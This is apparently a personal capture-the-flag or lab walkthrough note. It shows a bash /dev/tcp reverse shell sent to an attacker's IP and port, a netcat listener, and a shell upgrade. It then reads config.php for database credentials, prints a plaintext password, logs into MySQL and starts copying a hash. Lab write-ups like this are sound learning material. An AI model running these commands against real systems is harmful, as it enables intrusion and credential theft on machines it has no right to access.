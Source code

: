 ![[Pasted image 20240505115914.png]]


But now we want to get a reverse shell:

![[Pasted image 20240505120115.png]]

The Bash script is: 

> 'bash -c "bash -i >& /dev/tcp/$yourIP/$yourPort 0>&1"'

(and remember to modify the "2>&1" to "0>&1"

see how IpSec did it: https://youtu.be/E8h0qWsBz6c?t=1304

Activate listener:

> nc -lvnp $yourPORT

and send the request on burpsuite, we should have the web shell:

### Reverse shell returned on the linux host

![[Pasted image 20240505120029.png]]

Now l'ets upgrade the shell to be a proper PTY:

> python3 -c 'import pty;pty.spawn("/bin/bash ")'          -> CTRL + Z

> stty raw -echo;fg

![[Pasted image 20240505143710.png]]

usefull resource? [Upgrading Simple Shells to Fully Interactive TTYs - ropnop blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
and ![[Pasted image 20240505144221.png]]

Now the first thing we would like looking is for databases

![[Pasted image 20240505144340.png]]

we will go to config.php

> cat config.php

view creds:

![[Pasted image 20240505144727.png]]

so the username is root and the password my$qls3rvlc3!

**log in:** mysql -u root -p    -> insert passwd

![[Pasted image 20240505145451.png]]

![[Pasted image 20240505145525.png]]
Copy the hash:
